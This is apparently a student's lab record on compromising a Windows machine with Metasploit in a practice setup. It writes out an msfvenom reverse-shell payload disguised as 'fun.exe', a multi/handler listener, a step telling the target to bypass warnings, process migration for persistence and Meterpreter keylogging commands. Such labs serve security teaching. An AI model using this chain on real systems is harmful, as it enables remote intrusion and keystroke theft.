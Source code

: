 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
### NAME:N.NAVYA SREE
### REG NO:212223040138

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![Screenshot 2024-10-30 084351](https://github.com/user-attachments/assets/c13ae138-865e-4a0c-aa73-cb16bcab572a)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![Screenshot 2024-10-30 084404](https://github.com/user-attachments/assets/0d4bf214-1c2d-4239-83ca-c7a8ab4aef08)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Screenshot 2024-10-30 084413](https://github.com/user-attachments/assets/21ab6ec8-d9aa-47b9-a2d2-cdfff4b1c690)



Start apache server
sudo systemctl apache2 start
## OUTPUT:
![Screenshot 2024-10-30 084419](https://github.com/user-attachments/assets/962ebb97-efcd-462e-bfa5-6c2397d28e09)


Check the status of apache2
## OUTPUT:
![Screenshot 2024-11-01 185608](https://github.com/user-attachments/assets/1a687a16-3aa3-40b5-92d4-e38582c25ade)


Invoke msfconsole:
## OUTPUT:
![Screenshot 2024-10-30 084437](https://github.com/user-attachments/assets/47538d80-0d1b-41f2-95d8-6407caa05d29)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2024-10-09 082914](https://github.com/user-attachments/assets/4622b76d-8df9-45f6-a299-81e4fa841f89)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![Screenshot 2024-10-09 082927](https://github.com/user-attachments/assets/37229e74-48c4-438f-b719-8eaeb3442bb1)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![Screenshot 2024-10-09 082936](https://github.com/user-attachments/assets/6c2f5125-3af1-4220-9d09-3de65ce1c6f1)

Bypass any warning boxes, double-click the file, and allow it to run.

![Screenshot 2024-10-09 082947](https://github.com/user-attachments/assets/30514d6a-414c-4acc-8545-6bda15593bad)

On kali give the command exploit

![Screenshot 2024-10-09 082956](https://github.com/user-attachments/assets/ad2511f0-706e-42c8-bc08-8527e5b31cd5)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/d13f9ccb-d5d5-4b40-9d57-f90f5ce8e49e)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Screenshot 2024-10-09 083017](https://github.com/user-attachments/assets/15693580-f55a-4729-89ea-b4a8245ad8fd)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-10-09 083042](https://github.com/user-attachments/assets/d3955e35-d9f8-4319-8e23-910884f3bf40)

![Screenshot 2024-10-09 083053](https://github.com/user-attachments/assets/a091a620-6605-4976-b330-edd98659798f)


keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2024-10-09 083101](https://github.com/user-attachments/assets/e8496e1e-b936-41a6-b8d5-fcd5e86e8dd6)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
